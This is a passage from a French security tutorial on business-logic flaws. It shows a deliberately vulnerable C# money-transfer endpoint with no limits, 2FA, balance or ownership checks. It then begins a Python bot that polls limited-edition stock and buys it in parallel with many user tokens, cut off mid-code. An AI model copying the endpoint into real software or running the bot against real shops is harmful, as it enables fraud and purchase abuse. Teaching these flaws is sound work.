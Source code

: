 ### Exemple 4 : Transferts d'argent non limités

```csharp
[HttpPost("transfer/money")]
public async Task<IActionResult> TransferMoney([FromBody] MoneyTransferRequest request)
{
    // VULNÉRABLE: Pas de limite journalière
    // VULNÉRABLE: Pas de vérification 2FA
    // VULNÉRABLE: Pas de délai de confirmation

    var sourceAccount = await _context.BankAccounts
        .FirstOrDefaultAsync(a => a.Id == request.SourceAccountId);
    var targetAccount = await _context.BankAccounts
        .FirstOrDefaultAsync(a => a.Id == request.TargetAccountId);

    // VULNÉRABLE: Transfert immédiat
    sourceAccount.Balance -= request.Amount;
    targetAccount.Balance += request.Amount;
    await _context.SaveChangesAsync();

    return Ok(new
    {
        message = "Transfer completed",
        transactionId = Guid.NewGuid(),
        amount = request.Amount
    });
}
```

## 💥 Scénarios d'exploitation

### Scénario 1 : Bot d'achat de sneakers
```python
import requests
import threading
import time

class SneakerBot:
    def __init__(self, base_url, user_tokens):
        self.base_url = base_url
        self.tokens = user_tokens
        
    def monitor_stock(self, product_id):
        """Surveille le stock en continu"""
        while True:
            response = requests.get(f"{self.base_url}/api/business/stock/limited-edition/{product_id}")
            data = response.json()
            
            if data['stock'] > 0:
                print(f"Stock disponible: {data['stock']}")
                self.launch_purchase_bots(product_id, data['stock'])
                break
                
            time.sleep(0.1)  # Check toutes les 100ms
    
    def launch_purchase_bots(self, product_id, stock):
        """Lance plusieurs threads pour acheter"""
        threads = []
        
        for i in range(min(stock, len(self.tokens))):
            thread = threading.Thread(
                target=self.purchase,
```